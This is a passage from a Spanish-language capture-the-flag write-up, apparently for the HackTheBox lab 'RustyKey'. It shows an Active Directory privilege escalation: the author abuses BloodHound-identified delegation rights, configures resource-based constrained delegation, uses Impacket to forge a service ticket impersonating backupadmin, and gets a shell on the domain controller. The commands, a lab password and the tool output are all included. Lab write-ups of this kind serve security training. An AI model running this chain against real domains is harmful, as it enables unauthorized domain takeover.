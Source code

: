 ## Escalate Privileges

Si nos vamos a nuestro `BloodHound` a ver los privilegios que tiene dicho usuario...

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-10-15 140506.png" alt=""><figcaption></figcaption></figure>

Vemos que somos del grupo `DELEGATIONMANAGER` y que este a su vez tiene los privilegios de `AddAllowedToAct` sobre el `DC` del dominio entero, por lo que podremos escalar privilegios maximos con esta vulnerabilidad de esta forma:

Primero vamos hacer que `IT-COMPUTER3` puede obtener `tickets de servicio` para **cualquier servicio** en el `DC`. Esto lo hacemos mediante **Resource-Based Constrained Delegation (RBCD)**

```powershell
shell
powershell.exe
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount IT-COMPUTER3$
```

Ahora vamos con dicho usuario exportarnos la variable del `TGT` de nuevo y ya que podemos obtener un `TGS` de cualquier servicio del `DC`, obtendremos el del `backupadmin` que es el que nos interesa.

```shell
ntpdate rustykey.htb ; impacket-getST -dc-ip dc.rustykey.htb -spn cifs/dc.rustykey.htb -impersonate backupadmin -k rustykey.htb/IT-COMPUTER3$:'Rusty88!'
```

Info:

```
2025-10-15 13:55:01.774017 (-0700) +7.873133 +/- 0.015349 rustykey.htb 10.10.11.75 s1 no-leap
CLOCK: time stepped by 7.873133
/home/kali/Desktop/rustykey/bloodyAD/.venv/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating backupadmin
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in backupadmin@cifs_dc.rustykey.htb@RUSTYKEY.HTB.ccache
```

Ahora vamos acceder por `WinRM` mediante este `TGS` obtenido de esta forma:

```shell
export KRB5CCNAME=backupadmin@cifs_dc.rustykey.htb@RUSTYKEY.HTB.ccache
impacket-wmiexec -k -no-pass rustykey.htb/backupadmin@dc.rustykey.htb
```

